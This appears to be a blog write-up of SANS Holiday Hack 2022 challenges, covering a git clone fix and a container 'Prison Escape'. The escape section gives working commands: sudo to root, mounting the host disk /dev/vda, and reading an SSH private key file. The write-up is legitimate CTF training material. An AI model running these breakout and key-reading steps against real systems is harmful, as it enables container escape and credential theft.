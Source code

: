 ```yaml
---
layout: post
title: SANS Holiday Hack 2022 Write-Up
published: true
category: offsec
---
```

# Recover the Elfen Ring
## Clone with a Difference
The objective of this challenge is to resolve an issue with cloning a public `git` repository.

`cat` the readme and submit the last word to the `runtoanswer` script.

Answer: `maintainers`

The repository can be cloned via HTTPS by using a similar command, just with a slightly different URL:
```
git clone https://haugfactory.com/asnowball/aws_scripts.git
```

## Prison Escape
The objective of this challenge is to escape the container shell environment and find the hex string in `/home/jailer/.ssh/jail.key.priv`.

First, we can elevate our privileges from the `samways` account by simply using `sudo`:
```
grinchum-land:~$ sudo -l
User samways may run the following commands on grinchum-land:
    (ALL) NOPASSWD: ALL
grinchum-land:~$ id
uid=1000(samways) gid=1000(users) groups=1000(users)
grinchum-land:~$ sudo -i
grinchum-land:~# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```


`fdisk -l` tells us that we may have access to the host partition table:
```
grinchum-land:~# fdisk -l
Disk /dev/vda: 2048 MB, 2147483648 bytes, 4194304 sectors
2048 cylinders, 64 heads, 32 sectors/track
Units: sectors of 1 * 512 = 512 bytes

Disk /dev/vda doesn't contain a valid partition table
```

With that information, we can mount that virtual disk and access the files we need to solve the challenge:
```
grinchum-land:~# mkdir mnt/
grinchum-land:~# mount /dev/vda mnt/
grinchum-land:~# cat mnt/home/jailer/.ssh/jail.key.priv
```
